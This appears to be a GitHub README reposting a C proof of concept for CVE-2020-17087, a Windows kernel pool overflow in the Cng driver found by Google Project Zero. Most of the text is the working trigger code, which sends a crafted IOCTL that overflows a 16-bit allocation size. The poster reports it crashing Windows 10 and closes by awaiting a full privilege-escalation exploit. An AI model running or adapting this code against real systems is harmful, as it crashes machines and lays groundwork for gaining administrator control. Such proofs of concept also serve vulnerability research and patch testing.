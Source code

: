 # CVE-2020-17087
Elevation Of Privileges Proof of Concept for Windows (win7-win10)

A serious EOP exploit for Windows OS has been released by Google Project Zero.

I have tested it on Windows 10 and it is working i.e it successfully crashes the system.

I have compiled the below POC code, check the attached file.

    #pragma comment(lib, "ntdll")

    #include <cstdio>
    #include <windows.h>

    int main() {
      HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hCng == NULL) {
      printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
      return 1;
    }

    printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

    //
    // DataBufferSize overflows when used for allocating memory in
    // cng!CfgAdtpFormatPropertyBlock as (uint16)(DataBufferSize * 6).
    //
    // In this proof-of-concept, an allocation of (uint16)(0x2AAB * 6) = 2
    // bytes is requested while 0x2AAB * 6 = 0x10002 bytes are written to it.
    //
    CONST DWORD DataBufferSize = 0x2AAB;
    CONST DWORD IoctlSize = 4096 + DataBufferSize;
    BYTE *IoctlData = (BYTE *)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

    RtlZeroMemory(IoctlData, IoctlSize);

    *(DWORD*)    &IoctlData[0x00] = 0x1A2B3C4D;
    *(DWORD*)    &IoctlData[0x04] = 0x10400;
    *(DWORD*)    &IoctlData[0x08] = 1;
    *(ULONGLONG*)&IoctlData[0x10] = 0x100;
    *(DWORD*)    &IoctlData[0x18] = 3;
    *(ULONGLONG*)&IoctlData[0x20] = 0x200;
    *(ULONGLONG*)&IoctlData[0x28] = 0x300;
    *(ULONGLONG*)&IoctlData[0x30] = 0x400;
    *(DWORD*)    &IoctlData[0x38] = 0;
    *(ULONGLONG*)&IoctlData[0x40] = 0x500;
    *(ULONGLONG*)&IoctlData[0x48] = 0x600;
    *(DWORD*)    &IoctlData[0x50] = DataBufferSize; // OVERFLOW
    *(ULONGLONG*)&IoctlData[0x58] = 0x1000;
    *(ULONGLONG*)&IoctlData[0x60] = 0;
    RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
    RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

    ULONG_PTR OutputBuffer = 0;
    DWORD BytesReturned;
    BOOL Status = DeviceIoControl(
      hCng,
      0x390400,
      IoctlData,
      IoctlSize,
      &OutputBuffer,
      sizeof(OutputBuffer),
      &BytesReturned,
      NULL
    );

    printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

    HeapFree(GetProcessHeap(), 0, IoctlData);
    CloseHandle(hCng);

    return 0;
  }
 
 


https://bugs.chromium.org/p/project-zero/issues/detail?id=2104


--------------------- Waiting for the development of the exploit ------------------------

